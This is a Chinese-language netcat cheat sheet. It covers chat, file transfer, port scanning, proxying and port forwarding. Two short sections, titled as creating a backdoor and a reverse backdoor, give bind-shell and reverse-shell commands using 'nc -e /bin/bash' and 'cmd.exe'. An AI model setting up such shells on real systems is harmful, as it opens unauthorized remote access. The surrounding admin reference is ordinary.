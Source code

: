 # nc使用

Chat
```
# 发送端
nc -l 3333
# 接受端
nc 127.0.0.1 3333
```

传送文件
```
# 发送端
`cat backup.iso | nc -l 3333`
# 接收端
`nc 192.168.0.1 3333 > backup.iso`
```


显示传送进度，可以使用管道监控,pv命令
```
`cat backup.iso | pv -b | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > backup.iso`
```


本地打包文件，传送到远端
```
`tar -czf - /etc/ | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz`
```

端口扫描
```
扫描端口，并返回相关信息
nc -z 192.168.0.1 80-90
```

如何正确的加密聊天
```
nc -l 3333
ssh  yantze@192.168.0.1 sleep 1; nc 127.0.0.1 3333
```

如何正确的创建后门
```
nc -l 3333 -e /bin/bash
nc -l 3333 -e cmd.exe
nc 127.0.0.1 3333
```

如何逆向后门
```
nc -l 3333
nc 127.0.0.1 3333 -e /bin/bash
```

指定代理方式
> 以 http 的方式把 host.example.com:42 映射到 192.168.0.2:8080
```
nc -x192.168.0.2:8080 -Xconnect host.example.com 42
```

SSH over Socks
```
ssh -o ProxyCommand='/usr/bin/nc -x 127.0.0.1:1080 %h %p' -i "xxx.pem" user@host
```

nc over pipe ( port forwarding )
```
mkfifo a
mkfifo b
nc 127.0.0.1 8000 <b >a &
nc -l 8001 <a >b &
```

ssh 版本端口转发(远程转发，访问 host:8080 就相当于访问 localhost:80)
```
ssh -R 0.0.0.0:8080:localhost:80 user@host
# -R remote 的缩写
# -R [远程主机:]远程主机端口:登录主机:登录主机端口
# 0.0.0.0:8080 部分就是在 user@host 中建立 LISTEN 0.0.0.0:8080
```

## See Also
- [socat](./socat.md)
- [ssh](./ssh.md)

## Ref
- https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- http://www.g-loaded.eu/2006/11/06/netcat-a-couple-of-useful-examples/
- https://dragula.viettug.org/blogs/263.html
